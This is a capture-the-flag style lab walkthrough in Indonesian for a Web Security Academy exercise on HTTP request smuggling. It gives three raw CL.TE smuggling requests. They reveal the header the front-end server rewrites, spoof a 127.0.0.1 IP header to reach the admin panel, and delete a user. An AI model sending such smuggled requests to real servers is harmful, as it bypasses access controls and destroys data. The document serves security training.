






# Exploiting HTTP request smuggling to reveal front-end request rewriting

 Praktikum ini melibatkan server front-end dan back-end, dan server front-end tidak mendukung pengkodean chunked.

Terdapat panel admin di `/admin` Namun, akses hanya tersedia bagi orang-orang dengan alamat IP 127.0.0.1. Server front-end menambahkan header HTTP ke permintaan masuk yang berisi alamat IP mereka. Ini mirip dengan... Header `X-Forwarded-For`  tetapi memiliki nama yang berbeda.

Untuk menyelesaikan lab ini, selundupkan permintaan ke server back-end yang mengungkapkan header yang ditambahkan oleh server front-end. Kemudian selundupkan permintaan ke server back-end yang menyertakan header yang ditambahkan, akses panel admin, dan hapus pengguna. carlos. 

## 1

Telusuri ke `/admin` dan perhatikan bahwa panel admin hanya dapat dimuat dari `127.0.0.1`.
Gunakan fungsi pencarian situs dan amati bahwa fungsi tersebut mencerminkan nilai dari `search` parameter.

Gunakan Burp Repeater untuk mengeluarkan permintaan berikut dua kali. 

```bash
POST / HTTP/1.1
Host: 0ac4002f04bd3b688126c5d500c900f7.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

Respons kedua harus berisi "search results for" diikuti dengan awal permintaan HTTP yang telah ditulis ulang. 





## 2

Catat nama `X-*-IP` Tambahkan header ke permintaan yang telah ditulis ulang, dan gunakan untuk mengakses panel admin: 

```bash
POST / HTTP/1.1
Host: 0ac4002f04bd3b688126c5d500c900f7.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-kOPdyj-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```





## 3

Dengan menggunakan respons sebelumnya sebagai referensi, ubah URL permintaan yang diselundupkan untuk menghapus pengguna. carlos: 

```bash
POST / HTTP/1.1
Host: 0ac4002f04bd3b688126c5d500c900f7.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-kOPdyj-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```



